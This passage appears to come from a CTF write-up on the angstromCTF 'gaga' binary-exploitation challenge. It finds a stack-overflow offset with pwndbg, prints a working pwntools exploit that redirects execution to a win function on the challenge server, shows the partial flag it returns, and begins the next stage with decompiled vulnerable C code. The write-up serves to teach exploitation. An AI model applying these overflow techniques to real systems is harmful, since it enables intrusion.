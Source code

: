 I use pwndbg, which is an extension to gdb, making it more easy to view the address we crashed at, `0x616161616161616a`.

Pwndbg shows that this offset is 72
```bash
pwndbg> cyclic -l 0x616161616161616a
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```
{: .nolineno }

Our assembled exploit then becomes
```python
offset = 72
io = start()
io.recvuntil(b"win0, which is at address")
win0 = int(io.recvline().strip()[:-1], 16)

payload = b"\x90" * offset
payload += pack(win0)

io.recvuntil(b"input:")
io.sendline(payload)
io.interactive()
```
{: .nolineno }

Which gives us the first part of the flag
```bash
$ python3 exploit.py
[+] Opening connection to challs.actf.co on port 31300: Done
[*] Switching to interactive mode
 actf{b4by's_
```
{: .nolineno }

### Gaga1
Reversing the binary revelase this `main` function
```c
void main(void) {
  char input [60];
  puts("Nice!");
  puts("Now you need to call the win1 function with the correct arguments.");
  printf("Your input: ");
  gets(input);
  return;
}
```
and this `win1` function
```c
void win1(int arg1,int arg2) {
  char flag [136];
  FILE *flag_txt;

  if ((arg1 == 0x1337) || (arg2 == 0x4141)) {
    flag_txt = fopen("flag.txt","r");
    if (flag_txt == NULL) {
      puts("Error: missing flag.txt.");
      exit(1);
    }
    fgets(flag,0x80,flag_txt);
    puts(local_98);
  }
  return;
}
```
